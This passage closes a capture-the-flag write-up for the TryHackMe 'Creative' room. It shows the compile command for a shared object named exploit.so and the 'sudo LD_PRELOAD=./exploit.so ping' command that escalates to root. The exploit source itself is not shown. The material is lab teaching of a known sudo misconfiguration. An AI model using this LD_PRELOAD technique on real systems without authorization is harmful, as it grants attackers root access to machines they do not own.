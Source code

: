 We compile it using the following command

```console
$ gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles
```

![LD_PRELOAD](/assets/img/CTF/THM/Creative/ld_preload.png)

Now let's run ping with our shared object (exploit.so)
```console
$ sudo LD_PRELOAD=./exploit.so ping
```

![Iamroot](/assets/img/CTF/THM/Creative/r00tfl4g.png)

And that's it, I hope you enjoyed it.
